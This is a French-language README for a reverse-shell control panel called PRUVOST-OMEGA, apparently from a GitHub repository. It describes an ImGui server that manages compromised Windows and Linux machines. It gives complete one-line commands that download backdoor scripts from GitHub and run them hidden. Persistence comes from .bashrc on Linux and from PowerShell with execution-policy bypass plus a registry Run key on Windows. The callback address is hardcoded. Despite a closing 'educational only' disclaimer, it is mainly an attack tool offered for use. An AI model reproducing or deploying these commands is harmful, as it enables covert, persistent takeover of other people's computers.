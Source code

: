 # PRUVOST-OMEGA Reverse Shell

**PRUVOST-OMEGA** est une interface de contrôle d’un reverse shell multiplateforme (Windows/Linux) avec interface graphique en **C++ / ImGui**. Elle permet de recevoir et interagir avec des machines compromises via une console distante (type terminal), le tout dans une interface fluide et interactive.

---

## 📦 Fonctionnalités

* 🔤 Interface ImGui / OpenGL moderne pour Windows.
* 🧠 Liste des machines connectées (IP, pseudo).
* 💻 Console distante interactive (type shell/cmd/PowerShell).
* 🔀 Exécution de commandes classiques à distance :

  * `start notepad.exe`
  * `shutdown /r /t 0`
  * `exit` (ferme la session shell)
* 🔒 Persistance sur les machines compromises (via bashrc ou registre Windows).
* 📡 Communication TCP sur le port `1337`.

---

## 🧪 Captures principales

* Interface avec liste des machines connectées
* Console à distance pour chaque machine sélectionnée
* Boutons pour actions rapides (reboot, notepad, fermeture)

---

## ⚙️ Structure du projet

```
PRUVOST-OMEGA-Reverse-Shell/
├── backdoor.sh              # Reverse shell Linux
├── backdoor.ps1             # Reverse shell Windows (avec persistance)
├── PRUVOST-OMEGA_CLIENTAPP/
│   ├── Menu.cpp             # Interface ImGui + gestion TCP
│   ├── Menu.h
│   └── ...                  # Fichiers CMake, ImGui, GLFW, etc.
```

---

## 🚀 Installation & Exécution

### 🎯 Cible Linux

**Installation manuelle :**

```bash
bash -c 'curl -s https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.sh -o ~/.backdoor.sh && chmod +x ~/.backdoor.sh && grep -q ".backdoor.sh" ~/.bashrc || echo "bash ~/.backdoor.sh &" >> ~/.bashrc && bash ~/.backdoor.sh &' &
```

**Ce script :**

* Télécharge `backdoor.sh` depuis GitHub.
* Rend le script exécutable.
* L'ajoute à `.bashrc` pour une exécution automatique.
* L’exécute en arrière-plan.

### 🎯 Cible Windows

**Installation automatique :**

```powershell
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.ps1 -OutFile $env:APPDATA\backdoor.ps1; Start-Process -WindowStyle Hidden powershell -ArgumentList '-ExecutionPolicy Bypass -WindowStyle Hidden -File $env:APPDATA\backdoor.ps1'"
```

**Ce script :**

* Télécharge `backdoor.ps1` dans `%APPDATA%`.
* L’exécute immédiatement.
* Ajoute une clé au registre `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` pour relancer automatiquement au démarrage.

> ⚡ **N'oubliez pas de modifier l'adresse IP dans les scripts `backdoor.sh` et `backdoor.ps1` en fonction de l'adresse du serveur ImGui.**

---

## 🛠️ Compilation de l'application graphique (C++)

### Prérequis

* Visual Studio avec support du C++17
* GLFW
* ImGui
* OpenGL ≥ 3.0
* Ws2\_32.lib (WinSock)

### Compilation

* Ouvrir `PRUVOST-OMEGA.sln` avec Visual Studio
* Compiler en **Release x64**

---

## 📡 Communication

* Le client (`backdoor.ps1` / `backdoor.sh`) tente de se connecter à `192.168.1.18:1337`
* Le serveur ImGui écoute sur `INADDR_ANY:1337` et accepte plusieurs connexions, identifiées par IP

> ⚠️ **Changez l'adresse IP hardcodée dans les scripts clients avant d'utiliser l'application.**

---

## ⚠️ Avertissement légal

Ce projet est à but **éducatif uniquement**. Son utilisation sur des machines que vous ne possédez pas ou sans consentement explicite est **illégale** et **pénalement répréhensible**. L’auteur ne pourra être tenu responsable d’un usage abusif.

---

## 📖 Auteur

Projet par `s-i-m-o-n-git`
Interface par **ImGui + OpenGL**
